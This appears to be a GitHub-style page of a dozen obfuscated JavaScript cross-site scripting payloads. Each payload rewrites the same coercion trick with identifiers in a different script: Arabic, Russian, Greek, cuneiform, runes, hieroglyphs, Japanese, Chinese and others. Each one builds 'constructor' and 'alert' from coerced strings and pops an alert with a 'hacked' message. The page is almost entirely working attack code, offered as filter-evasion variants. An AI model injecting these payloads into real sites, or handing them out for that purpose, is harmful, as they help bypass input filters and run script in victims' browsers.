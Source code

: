 XSS Payload Written In Arabic
```
ا='',ب=!ا+ا,ت=!ب+ا,ث=ا+{},ج=ب[ا++],ح=ب[خ=ا],د=++خ+ا,ذ=ث[خ+د],ب[ذ+=ث[ا]+(ب.ت+ث)[ا]+ت[د]+ج+ح+ب[خ]+ذ+ج+ث[ا]+ح][ذ](ت[ا]+ت[خ]+ب[د]+ح+ج+"(1)")()
```
XSS Payload Written in Russian 🇷🇺
```
а='',б=!а+а,в=!б+а,г=а+{},д=б[а++],е=б[ж=а],з=++ж+а,и=г[ж+з],б[и+=г[а]+(б.в+г)[а]+в[з]+д+е+б[ж]+и+д+г[а]+е][и](в[а]+в[ж]+б[з]+е+д+"('взломано')")()
```
XSS Payload Written In Ancient Greek Language

```
α='',β=!α+α,γ=!β+α,δ=α+{},ε=β[α++],ζ=β[ι=α],η=++ι+α,θ=δ[ι+η],β[θ+=δ[α]+(β.γ+δ)[α]+γ[η]+ε+ζ+β[ι]+θ+ε+δ[α]+ζ][θ](γ[α]+γ[ι]+β[η]+ζ+ε+"('Ĥαcεκd βγ γαssιη')")()
```
XSS Payload Written in Ancient Indus Language 📜
```
𒀱='',𒁍=!𒀱+𒀱,𒂖=!𒁍+𒀱,𒃵=𒀱+{},𒄿=𒁍[𒀱++],𒅗=𒁍[𒀲=𒀱],𒆜=++𒀲+𒀱,𒇻=𒃵[𒀲+𒆜],𒁍[𒇻+=𒃵[𒀱]+(𒁍.𒂖+𒃵)[𒀱]+𒂖[𒆜]+𒄿+𒅗+𒁍[𒀲]+𒇻+𒄿+𒃵[𒀱]+𒅗][𒇻](𒂖[𒀱]+𒂖[𒀲]+𒁍[𒆜]+𒅗+𒄿+"('𒀱𒀲𒀱𒋻𒆜𒀲𒁂𒐫𒉿𒀜𒅔')")()
```

XSS Payload Written in Inuktitut language 📜
```
ᐊ='',ᐃ=!ᐊ+ᐊ,ᐅ=!ᐃ+ᐊ,ᐱ=ᐊ+{},ᑎ=ᐃ[ᐊ++],ᓇ=ᐃ[ᓕ=ᐊ],ᓯ=++ᓕ+ᐊ,ᓂ=ᐱ[ᓕ+ᓯ],ᐃ[ᓂ+=ᐱ[ᐊ]+(ᐃ.ᐅ+ᐱ)[ᐊ]+ᐅ[ᓯ]+ᑎ+ᓇ+ᐃ[ᓕ]+ᓂ+ᑎ+ᐱ[ᐊ]+ᓇ][ᓂ](ᐅ[ᐊ]+ᐅ[ᓕ]+ᐃ[ᓯ]+ᓇ+ᑎ+"('ᐊᐃᓐᓇᓂᐅᑦ ᐱᔭᓯᓕᖅ')")()
```
XSS Payload Written In Glagolitic 📜
```
Ⰰ='',Ⰱ=!Ⰰ+Ⰰ,Ⰲ=!Ⰱ+Ⰰ,Ⰳ=Ⰰ+{},Ⰴ=Ⰱ[Ⰰ++],Ⰵ=Ⰱ[Ⰶ=Ⰰ],Ⰷ=++Ⰶ+Ⰰ,Ⰸ=Ⰳ[Ⰶ+Ⰷ],Ⰱ[Ⰸ+=Ⰳ[Ⰰ]+(Ⰱ.Ⰲ+Ⰳ)[Ⰰ]+Ⰲ[Ⰷ]+Ⰴ+Ⰵ+Ⰱ[Ⰶ]+Ⰸ+Ⰴ+Ⰳ[Ⰰ]+Ⰵ][Ⰸ](Ⰲ[Ⰰ]+Ⰲ[Ⰶ]+Ⰱ[Ⰷ]+Ⰵ+Ⰴ+"('ⰀⰁⰂⰃⰄⰅⰆⰇⰈ')")()
```
XSS Payload Written In Linear B language 📜
```
𐀀='',𐀁=!𐀀+𐀀,𐀂=!𐀁+𐀀,𐀃=𐀀+{},𐀄=𐀁[𐀀++],𐀅=𐀁[𐀆=𐀀],𐀇=++𐀆+𐀀,𐀈=𐀃[𐀆+𐀇],𐀁[𐀈+=𐀃[𐀀]+(𐀁.𐀂+𐀃)[𐀀]+𐀂[𐀇]+𐀄+𐀅+𐀁[𐀆]+𐀈+𐀄+𐀃[𐀀]+𐀅][𐀈](𐀂[𐀀]+𐀂[𐀆]+𐀁[𐀇]+𐀅+𐀄+"('𐀀𐀁𐀂𐀃𐀄 𐀅𐀆𐀇𐀈')")()
```
XSS Payload Written In Runic 📜
```
ᚠ='',ᚢ=!ᚠ+ᚠ,ᚦ=!ᚢ+ᚠ,ᚨ=ᚠ+{},ᚱ=ᚢ[ᚠ++],ᚲ=ᚢ[ᚷ=ᚠ],ᚹ=++ᚷ+ᚠ,ᚺ=ᚨ[ᚷ+ᚹ],ᚢ[ᚺ+=ᚨ[ᚠ]+(ᚢ.ᚦ+ᚨ)[ᚠ]+ᚦ[ᚹ]+ᚱ+ᚲ+ᚢ[ᚷ]+ᚺ+ᚱ+ᚨ[ᚠ]+ᚲ][ᚺ](ᚦ[ᚠ]+ᚦ[ᚷ]+ᚢ[ᚹ]+ᚲ+ᚱ+"('ᛞᚾᛋᚨᛏᛡᚠᛚᛖᚺᛋᛉᛏᚱ')")()
```
XSS Payload Written In Ancient YI language 📜
```
ꆈ='',ꌠ=!ꆈ+ꆈ,ꁱ=!ꌠ+ꆈ,ꁯ=ꆈ+{},ꉬ=ꌠ[ꆈ++],ꃅ=ꌠ[ꋍ=ꆈ],ꇁ=++ꋍ+ꆈ,ꊰ=ꁯ[ꋍ+ꇁ],ꌠ[ꊰ+=ꁯ[ꆈ]+(ꌠ.ꁱ+ꁯ)[ꆈ]+ꁱ[ꇁ]+ꉬ+ꃅ+ꌠ[ꋍ]+ꊰ+ꉬ+ꁯ[ꆈ]+ꃅ][ꊰ](ꁱ[ꆈ]+ꁱ[ꋍ]+ꌠ[ꇁ]+ꃅ+ꉬ+"('ꆈꌠꁱꁯꉬꃅꋍꇁꊰꌠꁱꉬꇁꊰꆈꋍꁯꃅꆈꌠꁱꁯꉬꃅꋍꇁꊰ')")()
```
XSS Payload Written In Hieroglyphics 🇪🇬

```
𓀀='',𓁹=!𓀀+𓀀,𓆣=!𓁹+𓀀,𓉐=𓀀+{},𓂀=𓁹[𓀀++],𓏏=𓁹[𓀂=𓀀],𓎛=++𓀂+𓀀,𓅓=𓉐[𓀂+𓎛],𓁹[𓅓+=𓉐[𓀀]+(𓁹.𓆣+𓉐)[𓀀]+𓆣[𓎛]+𓂀+𓏏+𓁹[𓀂]+𓅓+𓂀+𓉐[𓀀]+𓏏][𓅓](𓆣[𓀀]+𓆣[𓀂]+𓁹[𓎛]+𓏏+𓂀+"('𓀀𓁹𓆣𓉐𓂀𓏏𓎛𓅓')")()
```

XSS Payload Written In Japanese 🇯🇵
```
あ='',い=!あ+あ,う=!い+あ,え=あ+{},お=い[あ++],か=い[き=あ],く=++き+あ,け=え[き+く],い[け+=え[あ]+(い.う+え)[あ]+う[く]+お+か+い[き]+け+お+え[あ]+か][け](う[あ]+う[き]+い[く]+か+お+"('ハッキングされました')")()
```
XSS Payload Written In Chinese 🇨🇳 
```
甲='',乙=!甲+甲,丙=!乙+甲,丁=甲+{},戊=乙[甲++],己=乙[庚=甲],辛=++庚+甲,壬=丁[庚+辛],乙[壬+=丁[甲]+(乙.丙+丁)[甲]+丙[辛]+戊+己+乙[庚]+壬+戊+丁[甲]+己][壬](丙[甲]+丙[庚]+乙[辛]+己+戊+"('被攻擊了')")()
```
Miscellaneous:
```
𝒜='',ℬ=!𝒜+𝒜,𝒞=!ℬ+𝒜,𝒟=𝒜+{},ℰ=ℬ[𝒜++],ℱ=ℬ[𝒢=𝒜],ℋ=++𝒢+𝒜,ℐ=𝒟[𝒢+ℋ],ℬ[ℐ+=𝒟[𝒜]+(ℬ.𝒞+𝒟)[𝒜]+𝒞[ℋ]+ℰ+ℱ+ℬ[𝒢]+ℐ+ℰ+𝒟[𝒜]+ℱ][ℐ](𝒞[𝒜]+𝒞[𝒢]+ℬ[ℋ]+ℱ+ℰ+"('𝓱𝓪𝓬𝓴𝓮𝓭 𝓫𝔂 𝔂𝓪𝓼𝓼𝓲𝓷')")()
```
```
Ａ='',Ｂ=!Ａ+Ａ,Ｃ=!Ｂ+Ａ,Ｄ=Ａ+{},Ｅ=Ｂ[Ａ++],Ｆ=Ｂ[Ｇ=Ａ],Ｈ=++Ｇ+Ａ,Ｉ=Ｄ[Ｇ+Ｈ],Ｂ[Ｉ+=Ｄ[Ａ]+(Ｂ.Ｃ+Ｄ)[Ａ]+Ｃ[Ｈ]+Ｅ+Ｆ+Ｂ[Ｇ]+Ｉ+Ｅ+Ｄ[Ａ]+Ｆ][Ｉ](Ｃ[Ａ]+Ｃ[Ｇ]+Ｂ[Ｈ]+Ｆ+Ｅ+"('H̶̦͇͓͔͙͔̜͕̬̗̦̜̹͎̝̟̥̊̆͊̈̿͆͐a̵̝̤̓̆̅̒̄͂͌̃͌̕͝͝č̷̡̡̡̛̳̱̠̫͓͕͕͔́͒͑̉͑̓̓͘͘͜͜͝k̷̢͈͖̫̐̓̊̊͊͑̒̊̄̎̽̕͘͘͝ę̴͔̻̟͎̟͖̪̐̆̉̓̑̐̇̋̇̍́̉͠ͅd̴͚̱̣͓̠̹̻̺͈̮̣̏̀̈́̒͆͐͋́ ̶̦̥̰̻̬̩̦̒͋͂̀͠B̴̛̤̹̤͍̹̺̖̬̺̝̈́͂̾͌̈́̓̋̍̃̀́̔͘͜͜͜͠ͅỳ̷̬͖͉͕͙̗͉̜̼̣̤̳̣̺͖͇̈́̾̈̀͂̑͋͌̀͠͠ ̵͈̏̑͛̈́̆̇̓̔̂̔̈́͘Y̷̧̼͉͙͙͙͙̳̳̰̮̯̝̔̀̋͊͋̒̐͒́̿̔̈́̈́̊̕͘ä̶̛͖͉̗̠̩̰̻͕̳͍͎́̅̇͗͑̇̊̀͘͝ͅś̷͕̥̹̬̟̑̑͌̀̅̍̈́͋̓̍͘s̷̱̔̐͗̈́̍̏͝͝i̶̺̠̝͉̥̖̙̰͌͌̈͂̽͒̅͜͜͝ͅṅ̴̛̦̙͖̲̫̹͊͑͌̎̒̉̆')")()
```